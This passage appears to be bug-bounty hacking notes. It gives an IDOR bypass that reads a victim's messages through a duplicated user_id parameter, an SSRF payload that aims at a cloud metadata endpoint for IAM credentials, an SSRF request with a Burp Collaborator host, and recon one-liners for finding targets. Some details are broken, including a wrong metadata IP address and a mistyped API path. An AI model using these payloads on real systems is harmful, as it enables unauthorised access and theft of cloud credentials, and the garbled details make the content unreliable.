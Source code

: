 
---
```js
GET /api_v1/messages?User_id=victim_id  ====> 401 
GET /api_vi/messages?user_id=attacker&user_id=victim  ====> 200
```
---
![file-access](img/arbitrary_location.jpg)

---
### SSRF to access AWS MetaData
- Recon: Subfinder + waybackmachine + URL Probe
- Got valid sub with multiple function
- Sipder whole application using burp and any other automated tools
- Search for Keywords : url,ref,uri,callback
- if you found anything then inject aws IP after the keywords you searched like
`uri=//169.234.169.234/latest/meta-data/iam/security-credentials/flaws/`

### SSRF
---
```js
POST /something HTTP/1.0
HOST: abc.com
X-Forwarded-For: <burp-collab.net>
```
***Note:*** HTTP version change from 1.1 to 1.0
- [gf](https://github.com/1ndianl33t/Gf-Patterns) 
Tool Used to grep for things we know and we can also find a ssrf vulnerability.
***Usage***
```sh
subfinder -d abc.com | httprobe -c 100 > out.txt

cat out.txt | waybackurls | gf <keyword>
```
After manually check the URLs to make sure.

---